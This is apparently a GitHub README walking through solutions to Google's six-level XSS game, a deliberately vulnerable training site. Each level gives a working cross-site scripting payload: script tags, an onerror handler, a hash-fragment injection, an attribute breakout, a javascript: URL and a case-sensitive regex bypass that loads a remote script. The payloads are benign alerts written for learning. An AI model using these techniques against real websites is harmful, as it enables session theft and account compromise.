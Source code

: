 # XSS-game by Google

Google has created 6 level interactive XSS game. 
[Click here to start playing](https://xss-game.appspot.com/ "XSS game area")

If you can pass all the challenges, you will be rewarded with an appealing cake! <img class="emoji" title=":smiley:" alt=":smiley:" src="https://assets-cdn.github.com/images/icons/emoji/unicode/1f603.png" height="20" width="20" align="absmiddle">

## Level 1: Hello, world of XSS
In this level you will learn what happens to the application if you use input from user directly without proper escaping.

### Solution

```html
<script>alert("Level1");</script>
```


## Level 2: Persistence is key
Similar to level 1. But this time directly inserting `<script>` tag will not work.

### Solution

```html
<img src="demo" onerror='javascript:alert("Level2");' />
```


## Level 3: That sinking Feeling
There is no input field in thie level. But still Cross Site Scripting is possible via the address path as the JavaScript code directly uses `self.location.hash.substr(1)`. It is the url part after the `#` sign.

### Solution

Simply inject the following: 

```javascript
https://xss-game.appspot.com/level3/frame#'onerror='alert("Level3")'
```


## Level 4: Context matters
The code passes user value directly to `onload="startTimer('{{ timer }}');"` method. Thus we can exploit the script. 

### Solution

Add the following part in the input field.

```
');javascript:alert('Level4
```


## Level 5: Breaking protocol
This is the most tricky challenge. Here some templates are connected in chain by storing the `next` URL in a variable. So, if we can somehow change the value of `next` variable then XSS will work.

### Solution

So we simply change the URL to:
 
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('Level5')

Press GO which will change the URL of Next button to javascript:alert('Level5').

Finally press the Next button.
```


## Level 6: Follow the rabbit
Do you know `regular expression`? If the answer is `yes` what do you think the following code snipper will do?

```javascript
url.match(/^https?:\/\//)
```
Yeah! You are right. It will return true if `url` variable starts with `http. What happen if `url` starts with `HTTP`?

If you do not know `regex`, start learning from 
[Learn Regular Expressions with simple, interactive exercises](https://regexone.com/ "RegexOne,
Learn Regular Expressions with simple, interactive exercises.")

### Solution

```html
https://xss-game.appspot.com/level6/frame#HTTPS://arsho.github.io/rough/alert.js
```


#Congratulation! Let's eat the cake!!

![alt xss_cake](https://raw.githubusercontent.com/arsho/xss_game/master/screenshot/xss_game_cake.png)

<hr>
Created by Ahmedur Rahman Shovon
